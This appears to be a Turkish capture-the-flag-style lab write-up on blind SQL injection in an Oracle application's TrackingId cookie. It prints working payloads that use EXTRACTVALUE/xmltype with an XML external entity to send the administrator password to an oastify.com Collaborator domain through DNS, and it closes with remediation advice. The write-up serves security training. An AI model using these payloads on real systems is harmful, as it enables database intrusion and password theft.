



# Blind SQL injection with out-of-band data exfiltration

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `TrackingId` cookie değeri SQL sorgusuna güvenli şekilde eklenmediği için blind SQL injection yapılabiliyordu. Uygulama response içinde veritabanı çıktısı veya hata mesajı göstermiyordu; ancak SQL sorgusu üzerinden dış bir domaine istek yaptırılabiliyordu.

Amaç, out-of-band data exfiltration tekniğiyle `administrator` kullanıcısının parolasını DNS isteği içinde dışarı aktarmak, elde edilen parola ile hesaba giriş yapmak ve labı tamamlamaktı.

## 3. Exploitation Steps

1. Burp Suite ile `/login` isteğini yakaladım ve `TrackingId` cookie değerini test etmek için Repeater'a gönderdim.

2. Lab Oracle veritabanı üzerinde çalıştığı için `UNION SELECT` ile `EXTRACTVALUE()` ve `xmltype()` fonksiyonlarını kullandım. XML içinde external entity tanımlayarak `administrator` kullanıcısının parolasını OAST domaininin başına ekledim:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.wpp3twpcfqarbuntdm8lswjan1tshjj77.oastify.com/"> %remote;]>'),'/l')+FROM+dual--
```

3. Payload gönderildiğinde HTTP response normal şekilde döndü. Response içinde parola görünmedi; fakat veritabanı XML external entity çözümlemeye çalışırken OAST domainine DNS/HTTP etkileşimi oluşturdu.



4. Burp Collaborator sekmesinde oluşan DNS isteklerini kontrol ettim. DNS sorgusunda OAST domaininin başında `exf20b...` değeri göründü. Bu değer `administrator` kullanıcısının parolasıydı:

```text
exf20bkcqjwpt4b30chi3
```



5. Elde ettiğim parola ile `administrator` hesabına giriş yaptım ve labı tamamladım.



## 4. Kullanılan Payloadlar

- Oracle XML external entity ile veriyi OAST domainine exfiltrate etmek için:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.<collaborator-domain>/"> %remote;]>'),'/l')+FROM+dual--; session=<session-id>
```

- Ekran görüntüsünde kullanılan örnek:

```http
GET /login HTTP/2
Cookie: TrackingId=<tracking-id>'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.wpp3twpcfqarbuntdm8lswjan1tshjj77.oastify.com/"> %remote;]>'),'/l')+FROM+dual--; session=<session-id>
```

## 5. Sonuç

- `TrackingId` cookie değerinin SQL sorgusuna dahil edildiğini tespit ettim.
- Response içinde veri görünmese bile veritabanı üzerinden out-of-band etkileşim oluşturulabildiğini doğruladım.
- Oracle `EXTRACTVALUE()` ve `xmltype()` fonksiyonlarıyla XML external entity payload'ı çalıştırdım.
- `administrator` kullanıcısının parolasını DNS sorgusunun subdomain kısmında dışarı aktardım.
- Elde edilen parola ile `administrator` hesabına giriş yaparak labı tamamladım.

## 6. Etki

Bu zafiyet, saldırganın response içinde herhangi bir veri görmediği durumlarda bile hassas verileri dış sistemlere aktarabilmesine neden olabilir. Out-of-band data exfiltration ile kullanıcı parolaları, tokenlar veya veritabanındaki diğer kritik bilgiler DNS/HTTP istekleri üzerinden sızdırılabilir ve hesap devralma gerçekleştirilebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Cookie ve header değerleri dahil tüm kullanıcı girdilerini güvenilmeyen veri olarak ele al.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı fonksiyonlarının kullanıcı girdisiyle kontrol edilebilir hale gelmesini engelle.
- XML external entity çözümleme gibi gereksiz özellikleri devre dışı bırak.
- Veritabanı sunucusunun dış DNS/HTTP erişimlerini kısıtla.
- Out-of-band DNS ve HTTP etkileşimlerini logla ve anormal istekler için alarm üret.
- Veritabanı kullanıcısına minimum yetki ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
